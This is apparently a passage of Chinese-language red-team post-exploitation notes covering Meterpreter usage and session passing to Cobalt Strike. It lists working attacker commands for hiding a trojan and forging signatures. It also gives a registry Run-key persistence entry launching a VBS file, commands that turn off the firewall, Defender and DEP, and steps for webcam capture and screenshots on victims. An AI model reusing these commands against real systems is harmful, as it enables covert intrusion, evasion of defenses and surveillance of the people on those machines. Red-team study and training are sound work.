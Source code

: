 ## 九、杂项

[红队技术 - 隐藏上传的程序木马 - Hyyrent blog](https://pizz33.github.io/posts/ffbd3579f38f/)

- 伪造签名：https://github.com/secretsquirrel/SigThief

- 深度隐藏：`attrib +s +h +r xxx.exe`

- 修改文件时间，防止`everything`筛选

## 十、Meterpreter

- use unhook

- `ps | grep "explorer.exe"`

- migrate xxxx （高危）

- screenshot

- screenshare （不一定来得及）

- search/download

- sysinfo

- getuid, getprivs

- webcam_list 列出摄像头

- webcam_snap

- webcam_stream

- reg createkey -k "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"   -v "Normal" -t "REG_SZ" -d "%AppData%\Honkai.vbs"

- search -f *.docx

解决shell乱码：chcp 65001

关闭防火墙：netsh advfirewall set allprofiles state off

关闭Defender：net stop windefend

关闭DEP：Bcdedit.exe /set {current} nx AlwaysOff

[meterpreter命令总结 - Leticia's Blog](https://uuzdaisuki.com/2020/08/04/meterpreter%E5%91%BD%E4%BB%A4%E6%80%BB%E7%BB%93/)

## 十一、会话传递

[Cobaltstrike 学习笔记（三）CS与MSF联动-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/2148912)

msf使用exploit/windows/local/payload_inject模块传递会话给CS，这也是一个危险操作，会被Defender查杀

[MSF 作战手册及联动 CobaltStrike - 离沫凌天๓](https://www.lintstar.top/2021/06/cc6d559a#%E5%90%8E%E6%B8%97%E9%80%8F%E6%A8%A1%E5%9D%97%EF%BC%88Post%EF%BC%89)

## 十二、权限维持
